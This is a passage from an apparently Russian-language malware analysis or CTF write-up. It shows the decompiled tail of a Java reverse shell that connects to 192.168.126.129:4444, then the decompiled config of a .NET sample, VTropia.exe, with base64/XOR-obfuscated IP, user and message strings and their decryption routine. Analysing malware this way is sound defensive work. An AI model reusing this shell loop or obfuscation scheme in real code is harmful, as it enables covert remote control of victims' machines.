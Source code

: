 ```java 
                    so.write(pi.read());
                }
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
                while (si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                try {
                    Thread.sleep(50L);
                } catch (InterruptedException e) {
                    e.printStackTrace();
                }
                try {
                    p.exitValue();
                    break;
                } catch (Exception e2) {
                }
            }
            p.destroy();
            s.close();
        } catch (IOException e3) {
            e3.printStackTrace();
        }
    }
}
```
Видно, что впо создает реверс шелл(который обращается к `192.168.126.129:4444`).

## VTropia.exe (md5)
Заметим , что это бинарь на дотнете. 
```bash=
$ file VTropia.exe                                   
Vropia.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
используем для декомпиляции https://github.com/icsharpcode/AvaloniaILSpy
```csharp

internal class Config
{
	public static string IP = "NiA3XjonOFogOlYaPBAhXT8eJhwxHVoaNlpZBTQFI10VXi8/DS01NDEQOhU=";

	public static string User = "AwQ3JBU5IxY2GyZQ";

	public static string Message = "AlojBRAnJxolCyEFABsYCjwnOlwaMykDNisrRjVbMxcQKC8cDgQ5FywPBwUBJDkLChk5HDYBKx81BSsXPDc3XDYUPgUmLx8uARE9CwkzVgUeWzgUDlsvWxUsN1wNBDkUPxsLFywBPgMJJy1DDTACFDMvXQk6AiMGDnA1AQYhLV0EDjoYGjdfFzcvL0YeLDAZFCwkCw0UWwo0JD0pLAE+Gho8PR81MCQUM1ojHTsoI1wjJAAXNiIEWQENKjQwMTkRGhInNwMFVDw9AhkANXAlGAAfAzUGJFkUBhkHKAADEUYUDxU0O1wgCw0EKV8/Gy4UKwouAzFHOQk3EV0UBj8/XgM3PAsIBAcBBxstWAd6OhUaMzUANi8/CR4gAR47KAILD3A9BQAbLVwHJCoGCkY5CjdaBRo1LzAJAwJMFSUEWgEAAD4KPxE+ADAZWgAwIAIG";

	public static string Key = "V2hlbllvdWxsQ29tZUhvbWU=";

	public static string AES { get; set; }

	public static void Decrypt(string key)
	{
		Key = Utils.DecodeBase64(Key) + Utils.DecodeBase64(key);
		IP = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(IP), Key));
		User = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(User), Key));
		Message = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(Message), Key));
	}
```